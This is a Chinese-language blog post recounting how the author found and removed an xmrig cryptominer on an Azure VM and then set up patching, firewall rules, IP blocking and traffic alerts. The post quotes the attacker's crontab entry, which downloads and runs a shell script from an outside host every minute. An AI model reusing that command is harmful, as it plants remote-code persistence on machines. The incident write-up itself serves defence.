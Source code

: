 ```yaml
---
layout: default
author: liuning0820
tags: [cloud]
comments: true
---
```


# 云安全的重要性：记录一次云主机被挖矿攻防

最近发现我的一台Azure VM 超出150美元的月度限额导致VM 直接关机。

通过Azure Monitor 上 可以看出一段时间内CPU，Network Out Total 严重异常，出口流量暴增，CPU 近100%。

![](./images/2021-02-27-10-21-05.png){:height="50%" width="70%"}

重新开机并立即关闭80，443 端口，并限定了22 端口仅限本机访问， 然后SSH上去开始尝试寻找问题原因。

1. 首先通过 **htop** 检查导致高CPU的进程,发现名为**xmrig**的进程导致100%

2. 检查crontab 查看是否有自启动的job，果然发现有，杀掉进程后并删除crontab job。

```sh
*/1 * * * * cd /tmp/node-v10.15.3-linux-x64/bin;rm -rf cc.sh;
wget http://8306.org/cc.sh;chmod 777 cc.sh;bash cc.sh /dev/null 2>&1

```

## 如果从SRE角度去主动侦测

上述的步骤是事后诸葛亮， 是被动的应对，决定尝试一下主动侦测并提前响应，以免像我一样早上上面的损失。

- 升级系统补丁

可以选择定时任务去执行下面的命令也可以在配置云主机的时候设置自动升级补丁包

```sh
sudo apt upgrade && sudo apt update
```

- 设置安全组和Inbound/Outbound 规则

- 通过监控工具主动发现异常

![](./images/2021-02-27-10-42-45.png){:height="50%" width="70%"}

从这里可以看到这个**xmrig**的进程通过13333这个端口从我的 Azure VM 跟目标机器 101.32.200.219 这台机器进行通信。

通过IP 我们可以定位出目标IP 对应的ISP 是腾讯云上的一台云主机。

![](./images/2021-02-27-10-46-59.png){:height="50%" width="70%"}

到这一步，我在想，是不是我们遇到重大损失的时候就可以报案并联系IPS运营商去协助从源头上解决问题。

当然，对于小损失，像我这样的，我们可以吃一堑长一智，至少可以把对方的IP 加到inbound/outbound blocklist里。

![](./images/2021-02-27-10-52-22.png)

- 设置Alert 主动通知和干预

因为此次攻击主要是利用云主机资源用来挖矿，对我的账单影响比较大的地方是出口流量费用。为了避免损失，我结合Azure 的Metrics 设置了
Alert。

![](./images/2021-02-27-10-55-41.png){:height="50%" width="70%"}

一旦发现一段时间内的流量异常，就通过邮件发送通知，并自动执行任务暂时关闭主机，阻止近一步的损失。

## 还有什么可以做的？

欢迎大家留言，提出保障云主机安全的见解和建议。
